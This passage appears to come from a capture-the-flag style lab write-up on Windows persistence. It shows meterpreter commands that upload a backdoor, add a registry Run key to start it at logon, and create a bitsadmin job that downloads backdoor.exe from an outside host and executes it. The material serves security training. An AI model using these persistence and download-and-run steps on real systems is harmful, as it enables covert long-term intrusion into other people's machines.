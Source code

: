 An example of an editable registry is:

```bash
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

First, let's move the backdoor to the AppData folder.
You can either move it
from the Startup folder or upload it again to the AppData folder.

```bash
meterpreter> cd %appdata%
meterpreter> pwd
meterpreter> upload backdoor.exe .
```

Drop into a shell and use the `reg add` function to create a registry that
will run our backdoor as follows:

```bash
meterpreter> shell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Users\tryhackme\AppData\Roaming\backdoor.exe"
```

### BITS Jobs

BITS (Background Intelligent Transfer Service) is used for file transfer
between machines (downloading or uploading) using idle network bandwidth.

BITS Jobs are containers that contain files that need to be transferred.
However,
when creating the job the container is empty and it needs to be populated
(specify one or more files to be transferred).
It's also needed to add the source and the destination.

Now that we know what BITS is and what jobs are used for let's try achieving persistence.

You can view the BITS help menu by typing:
`bitsadmin` in the command line/the shell you spawned.

Let's create the job:

```bash
C:\Users\tryhackme\AppData\Roaming> bitsadmin /create backdoor
```

Add the file for the job that will be transferred:

```bash
...Roaming> bitsadmin /addfile backdoor "http://<IP>/backdoor.exe" "C:\Users\tryhackme\Documets\backdoor.exe"
```

Now, let's make BITS execute our backdoor:

```bash
...Roaming> bitsadmin /SetNotifyCmdLine 1 cmd.exe "/c bitsadmin.exe /complete backdoor | start /B C:\Users\tryhackme\Documets\backdoor.exe"
```
